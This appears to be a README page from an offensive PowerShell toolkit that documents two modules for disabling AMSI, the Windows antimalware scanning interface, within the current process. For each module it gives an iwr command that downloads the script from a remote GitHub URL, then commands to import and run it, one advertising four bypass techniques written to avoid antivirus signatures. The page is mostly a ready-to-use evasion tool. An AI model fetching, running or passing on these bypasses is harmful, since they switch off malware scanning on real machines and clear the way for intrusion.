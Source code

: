 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name .\AMSBP.ps1 -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|4 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name .\Disable-Amsi.ps1 -Force
Disable-Amsi -DontDisableBlockLogging
```   
